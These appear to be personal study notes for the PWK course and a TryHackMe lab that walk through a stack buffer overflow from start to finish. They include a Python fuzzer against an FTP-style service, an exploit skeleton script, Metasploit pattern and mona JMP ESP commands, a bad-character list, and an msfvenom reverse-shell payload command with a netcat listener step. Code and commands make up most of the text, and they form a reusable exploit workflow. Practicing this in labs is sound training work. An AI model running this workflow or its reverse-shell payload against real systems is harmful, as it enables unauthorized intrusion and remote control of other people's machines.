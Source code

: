 # Buffer overflows

These instructions are a combination of my notes from the PWK course material and notes taken while executing Tib3rius's ["Buffer Overflow Prep"](https://tryhackme.com/room/bufferoverflowprep) room on THM. There are multiple techniques for executing buffer overflows, but all follow the same basic outline. Find what works for you. 

## Setup

### Immunity Debugger:

1. Start the application first, then open Immunity Debugger and use File --&gt; Attach to view the applicable process   -OR-
2. Open Immunity Debugger and use File-&gt; Open to start the application
3. Select the "red arrow" to run the application

### Mona.py

1. Set up your working folder with the following command:

```text
!mona config -set workingfolder c:\mona\%p
```

Mona is available at: [https://github.com/corelan/mona](https://github.com/corelan/mona)

## Fuzzing

The following script will fuzz a program by sending a string of characters that increases by 100 bytes with each iteration.  To use, update the IP address, port, and string \(line 20\) to match the program you are testing.

```text
import socket, time, sys

ip = "10.0.0.1" #change
port = 21 #change
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n") #update
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Replicate the crash

Build a script to replicate the error caused by the fuzzing script.

```text
import socket

ip = "10.0.0.1" #update
port = 21 #update

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

### Locate EIP

Generate a string of characters 400 bytes longer than the length that caused the program to crash while fuzzing.

```text
msf-pattern_create -l 2700
```

* Insert the generated pattern into the "payload" variable of your script
* Restart Immunity Debugger and the program you are testing
*  Run the exploit script
* Note the characters that overwrite EIP
* Use pattern\_offset.rb to locate the position of the characters in the string

```text
msf-pattern_offset -q 39694438
```

* Add the value from pattern offset to the "offset" variable in the script
* Set the script's "retn" variable to "BBBB"
* Restart Immunity Debugger and the program you are testing
* Run the exploit script
* EIP should be cleanly overwritten with Bs \(42424242\)

### Check for bad characters

1. Insert the bad character buffer into the scripts "payload" variable 
2. Restart Immunity Debugger and the program you are testing
3. Run the exploit script
4. After the program crashes, right click on "ESP" and "Follow Dump"
5. Remove characters that cause errors in memory \(non-sequential\)
6. Repeat steps 2-5 until there are no errors remaining in ESP

{% hint style="info" %}
\x00 was already removed from this buffer.
{% endhint %}

```text
# Bad Characters

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## Redirect execution

Next, we want to find a reliable location in memory that contains an JMP ESP \(or similar\) instruction.  This will enable us to redirect the program to our payload at the time of the crash.

1. Use the mona jmp command to search for jmp \(or equivalent\). By default, jmp ignores modules with DEP or ASLR.
2. Select from the list of options and note the memory location
3. Reverse the location \(little endian\) and insert the value in the script's "retn" variable \(625011af become /xaf/x11/x50/x62\)

```text
!mona jmp -r esp -cpb "\x00\x0a\x0d"  # update bad characters

# mona find can also be used here, but jmp normall works
!mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"
```

## Generate payload

Next, we generate our reverse shell payload and add it to the exploit. We'll also pad the beginning our the payload with a minimum of 16 NOPs \(x90\) to provide space in memory for decoding the payload.

### Generate shellcode with Metasploit

```text
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

### Pad with NOPs

Add the following to the script's "padding" variable.

```text
"\x90" * 16 
```

## Launch exploit

* Setup a netcat listener on the attacking machine using the same port identified during the generation of the payload
* Launch the exploit

